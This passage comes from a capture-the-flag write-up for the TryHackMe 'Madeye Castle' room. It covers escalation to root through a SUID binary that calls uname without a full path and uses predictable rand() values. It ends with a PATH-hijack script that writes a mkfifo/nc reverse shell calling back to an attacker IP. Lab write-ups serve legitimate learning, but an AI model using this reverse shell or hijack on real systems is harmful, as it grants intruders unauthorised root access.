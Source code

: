 
![](/TryHackMe/MadeyeCastle/hermoine.png)


## __Fourth Stage : hermonine to root__


So first I ran linpeas and nothing caught my eye , then I used manual enumeration.

While finding **SUID** binaries one binary caught my eye
> find / -type f -perm -u=s 2>>/dev/null

![](/TryHackMe/MadeyeCastle/binary.png)



So I went to **/srv/time-turner/** directory and ran the binary.


![](/TryHackMe/MadeyeCastle/run1.png)


So it is a number guessing game I suppose.


So I transfered the binary to local machine and put it in ghidra.


![](/TryHackMe/MadeyeCastle/swagger.png)


So it is using rand function and storing a number and asks us to guess it , if it is right it call the function called **impressive()** or else it prints the random number and exits.


![](/TryHackMe/MadeyeCastle/impressive.png)



So impressive function calls uname without proper path , hence we can try to exploit this for rce.


But first we have to guess the number correctly so that we can exploit this vuln. I searched for vulnerability in rand and from the hint I understood we can use time factor.

So I tried this 

> for i in $(seq 1 6) ; do echo 123 | ./swagger ; done


![](/TryHackMe/MadeyeCastle/run2.png)



Hence this shows that the same number is being repeated , we can use this to our advantage . 


Hence the exploit is


```shell

touch /tmp/uname
chmod +x /tmp/uname
export PATH=/tmp:$PATH
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your-ip> 1234 >/tmp/f " > /tmp/uname
```
